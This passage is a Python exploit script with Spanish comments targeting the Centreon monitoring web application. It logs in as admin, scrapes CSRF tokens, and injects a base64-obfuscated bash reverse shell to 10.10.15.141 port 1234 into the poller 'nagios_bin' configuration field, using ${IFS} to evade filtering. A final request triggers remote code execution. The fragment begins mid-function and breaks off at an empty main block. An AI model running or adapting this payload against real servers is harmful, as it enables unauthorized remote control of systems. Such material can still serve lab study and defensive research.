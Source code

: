 ```python3
# Token en el que filtramos con expresiones Regulares para filtrarlo y pasarlo por cada peticion correctamente
        centreon_token = re.findall(r'type="hidden" value="(.*?)"', r.text)[0]
# Data que Formalizamos, modificamos los parametros password y cetreon token para que valgan las variables que tenemos predefinidas
        login_data = {

        'useralias': 'admin',
        'password': password,
        'submitLogin': 'Connect',
        'centreon_token': centreon_token

        }
# Peticion POST arrastrando la session y tramitando la data password1
        r = s.post(main_url, data=login_data)

# Actualizando el valor de la variable cetreon_token a new token, hacemos otra peticion a la url correspondiente y filtramos igual con la libreria RE
        r = s.get(config_url)
# El antiguo cetreon_token ahora lo llamamos new_token y lo reobtenemos de la url correspondiente config_url
        new_token = re.findall(r'type="hidden" value="(.*?)"', r.text)[6]
# Data que Formalizamos en esta nueva peticion web
        data_config_post = {

                'name':'Central',
                'ns_ip_address':'127.0.0.1',
                'localhost[localhost]':'1',
                'is_default[is_default]':'0',
                'ssh_port':'22',
                'init_script':'centengine',
                'nagios_bin':'echo${IFS}YmFzaGMgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTQxLzEyMzQgMD4mMQo=|base64${IFS}-d|bash;',
                'nagiostats_bin':'/usr/sbin/centenginestats',
                'nagios_perfdata':'/var/log/centreon-engine/service-perfdata',
                'centreonbroker_cfg_path':'/etc/centreon-broker',
                'centreonbroker_module_path':'/usr/share/centreon/lib/centreon-broker',
                'centreonbroker_logs_path': '',
                'centreonconnector_path':'/usr/lib64/centreon-connector',
                'init_script_centreontrapd':'centreontrapd',
                'snmp_trapd_path_conf':'/etc/snmp/centreon_traps/',
                'ns_activate[ns_activate]':'1',
                'submitC':'Save',
                'id':'1',
                'o':'c',
                'centreon_token': new_token
                }

        r = s.post(config_url, data=data_config_post)

# Data de la ultima peticion RCE
        rce_data = {

                'poller': '1',
                'debug': 'true',
                'generate':'true'
                }

        r = s.post(rce_url, data=rce_data)


if __name__ == '__main__':

```